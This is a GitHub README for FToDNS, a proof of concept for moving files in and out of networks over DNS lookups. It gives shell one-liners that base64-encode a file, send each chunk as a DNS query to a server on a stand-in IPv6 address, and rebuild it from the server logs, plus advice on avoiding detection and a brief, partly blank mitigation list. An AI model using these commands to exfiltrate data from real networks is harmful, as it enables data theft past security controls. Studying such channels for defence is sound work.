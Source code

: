 # FToDNS: File Transfer over Domain Name Service
Christopher Neitzert <chris@neitzert.com>

### What:
A proof of concept that utilizes the Domain Name Service protocol, loosely, as it was intended for data delivery and exfiltration across network boundaries.

### Why:
The use of DNS for data exfiltration or VPN has been a hacker trope for the four decades that DNS has existed.
Recently with the creation of [DNS over HTTPS](https://en.wikipedia.org/wiki/DNS_over_HTTPS) in order to protect those that may be censored we inadvertadnly create an uncontrolable channel for data in/exfiltration.

There have been several impliementations of this concept and this Proof of Concept is not unique. 
Although this implementation is not based on the previous PoCs, several interesting methods will be linked in the [Erratum.txt](https://github.com/neitzert/FToDNS/blob/master/Erratum.txt)

### How it works
This is assuming that any of this works, and a given that there are plenty of better ways to do it. 

There are two types of landscape a DNS server exists in, for the purposes of this PoC we will call them Direct and Recursive.
Additionally, there are two verbs in a basic file transfer; We will call them 'Put File' and 'Get file'.

#### Landscape:
##### Direct Client to Server
![DNS](/images/DNS_Generic.png)
* A typical DNS client queries a DNS server for a host or zone.
* It might traverse a firewall or two as it crosses the internet
* The DNS server responds to the DNS client with an answer or error

##### Client to Recursive Server to Authoritative Server
![DNS](/images/DNS_Recursion.png)
* A typical DNS client queries a DNS server for a host or zone.
* Local rules might require the DNS client use a local server.
* The Local Server likely does not have the zone, so it queries the Authoritative Server on behalf of the DNS client.
* The query might traverse a firewall or two as it crosses the internet
* The Authoritative Server responds with an answer or error to the Local Server.
* The Local Server then relays that information to the DNS client.

#### Verbs

#### Put File
![DNS](/images/FToDNS_PutFile.png)
* The user chooses a file and Base64 encodes the file with 56 Byte long lines
	* One consideration is a multiple encoding method to correct for out of order query-server-log issues.
		* ex: 
			* base64 -w56 $FILE | cat -n | base64 -w56 > file_to_be_put
	* Then for each 56 Byte long encoded line generated by encoded data the user simply performs a DNS lookup with that line to their DNS Server.
		* ex: 
			* host -6 -a -W60 $line.io 2001:db8:1:1:1:1:1:1 
		* Detection avoidance considerations should be taken around timing, encoding, destination servers, and host call.
	* Each query is logged by the destination DNS Server and easily extracted by inverse method of encoding.
		* ex: 
			* cat $NAMED_LOGFILE | grep .io | grep cache | cut -f2 -d"("| cut -f1 -d"." | base64 -d > $DESIRED_FILE_OUTPUT


#### Get File
![DNS](/images/FToDNS_GetFile.png)
* A typical DNS client queries



### Proof of Concept Criteria and Requirements
1. PoC Criteria
	1. Proof of concept must be limited to tools built into the OS plus Bind9 for DNS service.
	1. Some sort of TCP-IP network between client & server that permits DNS between Client and Server. 
	1. Proof of concept must be able to, via the DNS protocol, 
		1. Copy a file from a remote server to a local client across a network
		1. Copy a file on a local client to a remote server across a network

1. Client Requirements:
	1. Standard Linux Distribution with standard GNU Core utils
	1. Host(1) ISC's standard host utility.  
	1. Base64, grep, cut, sed, awk, general sh scripting

1. Server Requirements:
	1. Standard Linux Distribution with standard GNU Core utils
	1. ISC's Bind9 DNS server 
		1. Ability to write zone files
		1. Ability to read log files
		1. Ability to change named.conf to allow zone transfers.
		1. named.conf configuration changes TBD
	1. Base64, grep, cut, sed, awk, general sh scripting


1. Types of Test 
	1. Due to the complexity of the PoC, this will be broken down into multiple types of PoC
		1. - [x]Direct Client to Server
			1. - [x]Read file 
			1. - [x]Write file
		1. - [ ]Client to Recursive to Authoritative
			1. - [ ]Read file
			1. - [ ]Write file
		1. - [ ]Client via DoH to HTTPS/DNS server 
			1. - [ ]Read file
			1. - [ ]Write file





### How to Mitigate:
This specific Proof of Concept creates several issues with its issuance and this document would not be complete without a short discussion on mitigation.

1. Network
	1. Limit Talkers
	1. Record DNS 'meta data'
	1. 
	
1. DNS Server Architecture
	1. Restrict zone transfers 
	1. Disable recursive checks and retrievals.	
	
1. Fuzz
	1. Timing and Frequency
	1. Query length
	1. Text Encoding
	1. 



### File Descriptions:

####Resolver.sh

A simple script to encode a file into a very large number of DNS host look up queries for later collection and reassembly on the upstream DNS server 


####ZoneGet.sh

Simple script to query a DNS server and decode the output of an entire DNS zone where each CNAME entry in the zone is a line fragment of a double base64 encoded file created by the script ZoneMaker.sh. 


####ZoneMaker.sh

Simple script to take a file and base64 encode it, write it into a DNS zone file for remote serving on a Bind9 DNS server.



 
### Disclaimers 
All standard disclaimers apply, no warranty, claims, or promises declared, made or implied.

For educational, research, and entertainment purposes only. 

Usability expires while you wait.

